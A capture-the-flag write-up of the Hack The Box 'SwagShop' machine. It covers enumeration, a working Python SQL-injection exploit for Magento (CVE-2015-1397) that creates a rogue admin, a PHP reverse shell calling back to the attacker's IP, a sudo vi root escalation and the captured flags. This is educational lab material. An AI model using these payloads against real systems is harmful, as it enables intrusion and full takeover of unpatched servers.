




# Table of Contents:

- [SwagShop](#swagshop)
  - [Network Enum:](#network-enum)
  - [Exploitation:](#exploitation)
  - [`user.txt`](#usertxt)
  - [`root.txt`](#roottxt)

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

# SwagShop

https://www.hackthebox.eu/home/machines/profile/188



## Network Enum:

Lets start off with a quick `nmap`:

```
root@kali:~/Desktop/swagshop# nmap -sV -O 10.10.10.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-13 21:14 EDT
Nmap scan report for 10.10.10.140
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=7/13%OT=22%CT=1%CU=30715%PV=Y%DS=2%DC=I%G=Y%TM=5D2A81F
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.71 seconds
root@kali:~/Desktop/swagshop#
```

Lets enumerate the web service on port 80.

```
root@kali:~/Desktop/swagshop# nikto -h http://10.10.10.140
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.140
+ Target Hostname:    10.10.10.140
+ Target Port:        80
+ Start Time:         2019-07-13 21:17:10 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0x47e 0x4f8d3f475ee80 
+ OSVDB-39272: favicon.ico file identifies this server as: Magento Go CMS
+ OSVDB-3268: /app/: Directory indexing found.
+ OSVDB-3092: /app/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ OSVDB-3092: /install.php: install.php file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /RELEASE_NOTES.txt: A database error may reveal internal details about the running database.
+ /RELEASE_NOTES.txt: Magento Shop Changelog identified.
+ /downloader/: Magento Connect Manager login identified. This might also reval the installed version of Magento
+ 7499 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2019-07-13 21:31:44 (GMT-4) (874 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/Desktop/swagshop#
```

Alright, lets checkout the login page at `/downloader`:



Looks like we know whats running on this port and the version:`Magneto Connect Manager v1.9.0.0`. 

## Exploitation:

Before we do a more deep dive on this web service, lets look for a common CVE:

https://www.cvedetails.com/product/31613/Magento-Magento.html?vendor_id=15393

We see 5 that allow for remote code execution. We also see that all 5 will work for our version of the software: `v1.9.0.0`. Lets try and find some already working PoC code:

- https://github.com/joren485/Magento-Shoplift-SQLI

The above works for [CVE-2015-1397](https://www.cvedetails.com/cve/CVE-2015-1397/) and versions < `1.9.1.0`. Here are some good resources for the CVE:

- https://blog.sucuri.net/2015/04/magento-shoplift-supee-5344-exploits-in-the-wild.html
- https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

After examining the PoC code, we can simplify it to the following:

```python
import requests
import base64

TARGET = '10.10.10.140'
USERNAME = 'bubba'
PASSWORD = 'gump'
URL = 'http://' + TARGET + '/index.php/admin/Cms_Wysiwyg/directive/index/'
SQL="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
QUERY = SQL.replace('\n', '').format(username=USERNAME, password=PASSWORD)
FILTER = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(QUERY)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(URL, 
                  data={'___directive': 'e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ',
                        'filter': base64.b64encode(FILTER),
                        'forwarded': 1})
if r.ok:
    print 'WORKED'
    print 'Check {0}/downloader with creds {1}:{2}'.format(TARGET, USERNAME, PASSWORD)
else:
    print 'DID NOT WORK'
```

After running it, we get the following:

```
root@kali:~/Desktop/swagshop# python cve.py 
WORKED
Check 10.10.10.140/downloader with creds bubba:gump
```

Nice! and these credentials work for the `/downloader` login page. Now that we have access, lets look for ways to run custom code. 

## `user.txt`

Some searching on this first page we land on and we see the following after clicking on the `return to admin` link on the `/downloader` page:



Notice the `IDE` option for the `Filesystem` plugin in the admin panel:


**NOTE:** If you don't see this option, you need to install the plugin:

- https://www.youtube.com/watch?v=BbVk67f0OCE
- https://pluginarchive.com/magento/magpleasure_filesystem

This opens an IDE for use to edit the source code. With this ability, we can modify the PHP server code and get our shell. Lets edit the `get.php` file:



Here is our shell code:

```php
<?php
$sock = fsockopen("10.10.12.123",6969);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```

After saving the file and browsing to `http://10.10.10.140/get.php`, we get the following callback:

```
root@kali:~/Downloads# nc -nvlp 6969
listening on [any] 6969 ...
connect to [10.10.12.123] from (UNKNOWN) [10.10.10.140] 41880
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 May  2 14:48 .
drwxr-xr-x 23 root  root  4096 May  2 14:55 ..
drwxr-xr-x  3 haris haris 4096 May  8 09:21 haris
$ cd haris
$ ls -la
total 36
drwxr-xr-x 3 haris haris 4096 May  8 09:21 .
drwxr-xr-x 3 root  root  4096 May  2 14:48 ..
-rw------- 1 haris haris   54 May  2 14:56 .Xauthority
lrwxrwxrwx 1 root  root     9 May  8 09:20 .bash_history -> /dev/null
-rw-r--r-- 1 haris haris  220 May  2 14:48 .bash_logout
-rw-r--r-- 1 haris haris 3771 May  2 14:48 .bashrc
drwx------ 2 haris haris 4096 May  2 14:49 .cache
-rw------- 1 root  root     1 May  8 09:20 .mysql_history
-rw-r--r-- 1 haris haris  655 May  2 14:48 .profile
-rw-r--r-- 1 haris haris    0 May  2 14:49 .sudo_as_admin_successful
-rw-r--r-- 1 haris haris   33 May  8 09:01 user.txt
$ cat user.txt
a448877277e82f05e5ddf9f90aefbac8
```

And thats user with a reverse shell. Lets enumerate more for root:

## `root.txt`

One of the first things we should always start with is an elevated shell:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/var/www/html$
```

Next we always check our current access:

```
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Thats VERY interesting here. We can run the above sudo command with no password prompt! This helps a lot since the `www-data` account does not have any permissions and any passwords we can exploit. We can also easily abuse `vi` to escalate privileges like so:

```bash
sudo vi
:shell
# or the following:
sudo vi
:set shell=/bin/bash:shell    
:!bash
```

Lets try our exploit:

```
www-data@swagshop:/var/www/html$ touch /var/www/html/bubba
touch /var/www/html/bubba
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/bubba
sudo /usr/bin/vi /var/www/html/bubba

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

^[:shell
~
~
:shell
root@swagshop:/var/www/html# cd ~
cd ~
root@swagshop:~# ls -la
ls -la
total 28
drwx------  3 root root 4096 Jul 14 14:44 .
drwxr-xr-x 23 root root 4096 May  2 14:55 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 May  2 14:50 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  606 Jul 14 14:44 .viminfo
-rw-------  1 root root  270 May  8 09:01 root.txt
root@swagshop:~# cat root.txt
cat root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
root@swagshop:~#
```

And thats root!

